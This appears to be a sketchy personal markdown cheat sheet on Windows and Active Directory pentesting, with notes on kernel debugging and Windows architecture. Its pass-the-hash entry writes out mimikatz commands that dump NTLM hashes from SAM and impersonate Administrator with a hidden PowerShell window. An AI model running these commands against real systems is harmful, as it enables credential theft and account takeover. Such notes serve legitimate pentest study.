 # Windows Host security features

# Security in AD network

# Windows related
### Process monitoring
Useful for trackig filesystem, Process, Threads, DLL activity


# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash**    - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"```, now migrate to the new created process as the impersonated user ```steal_token 1234```
- **PassTheTicket**  - ?????????????????????
- OverPassTheHash    -  

# Debugging Kernel
Steps
* Enable kernal debugging and get key - ```bcdedit debug on``` ```bcdedit net hostip:192.168.0.101 port:55xxx``` ```bcdedit /dbgsetting net hostip:192.168.0.101 port:55xxx```
* Now open windbg -> Attach kernel -> enter port and the key from above command
* kd>.reload /f - Command to reload symbols

### Windows Operating System Architecture
- https://i.ytimg.com/vi/PuDlDtqfXtk/maxresdefault.jpg
- User mode
    - kernel32.dll, USER32.dll, advapi32.dll, ntdll.dll
- Kernel mode
    -  ntoskrnl.exe, hal.dll, win32k.sys 
1. Inturrupts
- Trap - Interrupts
